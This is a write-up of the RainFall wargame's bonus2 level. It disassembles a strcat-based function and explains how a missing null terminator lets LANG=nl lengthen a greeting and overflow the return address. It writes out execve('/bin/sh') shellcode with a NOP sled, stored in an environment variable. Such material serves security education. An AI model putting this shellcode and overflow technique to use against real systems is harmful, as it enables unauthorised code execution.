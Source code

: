 ```gdb
   0x08048517 <+147>:    call   0x8048370 <strcat@plt>                  ; strcat(buffer2, buffer1)
   0x0804851c <+152>:    lea    eax,[ebp-0x48]                          ; load buffer2 to eax
   0x0804851f <+155>:    mov    DWORD PTR [esp],eax                     ; push <puts> arg to stack (buffer2)
   0x08048522 <+158>:    call   0x8048390 <puts@plt>                    ; puts(buffer2)
   0x08048527 <+163>:    leave
   0x08048528 <+164>:    ret
End of assembler dump.
```

A potential vulnerability in this function calling `strcat` wich we already know that it is unsecure.

> Note : The exploit here is very similar to `bonus0`, so we will not explain the whole process with the same level of details. In order to be as explicit as possible, we will use the following terms to distinguish the different buffers used in the program :
- main buffer 1 and 2 : 40 and 32 byte long respectively, declared and filled in the `main` by `strncpy`.
- final buffer : 72 byte long, declared and filled in `greetuser` by a hardcoded value + `strcat`.

The program requires two arguments which are copied as strings to main buffers, then use the `getenv` function to get the value of the environment variable `LANG`. Comparing this value to "fi" and "nl", it sets the global variable language and uses it to fill the beginning of the final buffer in `greetuser` function. Finally, it appends the main buffer 1 to the final buffer thanks to `strcat`.

## Exploit

The exploit is a classic buffer overflow attack, which will occurs on the final buffer, when `strcat` will append both main buffers to it thanks to the lack of a terminating '\0' at the enf of the main buffer 1.

The first step is to set the environment variable `LANG` to "nl". This way, the first part of the final buffer will be filled by the string "Goedemiddag! " (13 byte long) which will help us to overflow the final buffer. If you set the `LANG` variable to "fi", the copied string will be "Hyvää päivää ". This string contains some wide characters so it will be more complicated to count the resulting number of bytes. Any other value (or none) of the variable gives us the string "Hello " which is not long enough to perform the final buffer overflow.

```console
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ env | grep LANG
LANG=nl
```

Then, we use the same tools as usual to find the offset of the return address of the function `greetuser`, which is the 23rd byte of the second argument provided. Now we set an environment variable containing a short NOP sled + an `execve` call to spawn a shell.

```console
bonus2@RainFall:~$ export SHELLCODE=`python -c 'print "\x90"*10 + "\xeb\x16\x31\xc0\x5b\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'`
bonus2@RainFall:~$ env | grep SHELLCODE
SHELLCODE=�����������1�[�C��C
                             �
                              ��S
                                  ̀�����/bin/sh
```
